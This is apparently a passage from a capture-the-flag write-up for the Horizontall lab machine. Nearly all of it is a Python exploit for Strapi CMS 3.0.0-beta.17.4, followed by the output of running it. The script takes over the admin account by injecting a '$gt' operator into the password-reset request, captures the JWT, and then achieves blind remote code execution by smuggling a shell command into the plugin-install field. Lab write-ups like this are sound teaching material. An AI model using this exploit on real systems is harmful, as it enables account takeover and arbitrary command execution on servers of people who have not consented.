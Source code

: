 ```
    print("[+] Checking Strapi CMS Version running")
    version = requests.get(f"{url}/admin/init").text
    version = json.loads(version)
    version = version["data"]["strapiVersion"]
    if version == "3.0.0-beta.17.4":
        print("[+] Seems like the exploit will work!!!\n[+] Executing exploit\n\n")
    else:
        print("[-] Version mismatch trying the exploit anyway")


def password_reset():
    global url, jwt
    session = requests.session()
    params = {"code" : {"$gt":0},
            "password" : "SuperStrongPassword1",
            "passwordConfirmation" : "SuperStrongPassword1"
            }
    output = session.post(f"{url}/admin/auth/reset-password", json = params).text
    response = json.loads(output)
    jwt = response["jwt"]
    username = response["user"]["username"]
    email = response["user"]["email"]

    if "jwt" not in output:
        print("[-] Password reset unsuccessfull\n[-] Exiting now\n\n")
        sys.exit(1)
    else:
        print(f"[+] Password reset was successfully\n[+] Your email is: {email}\n[+] Your new credentials are: {username}:SuperStrongPassword1\n[+] Your authenticated JSON Web Token: {jwt}\n\n")
def code_exec(cmd):
    global jwt, url
    print("[+] Triggering Remote code executin\n[*] Rember this is a blind RCE don't expect to see output")
    headers = {"Authorization" : f"Bearer {jwt}"}
    data = {"plugin" : f"documentation && $({cmd})",
            "port" : "1337"}
    out = requests.post(f"{url}/admin/plugins/install", json = data, headers = headers)
    print(out.text)

if __name__ == ("__main__"):
    url = sys.argv[1]
    if url.endswith("/"):
        url = url[:-1]
    check_version()
    password_reset()
    terminal = Terminal()
    terminal.cmdloop()


```
###By saving this file as exploit.py we run this expoit to get the username , password and JSON Web Token 
```
python3 exploit.py http://api-prod.horizontall.htb/ 
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
```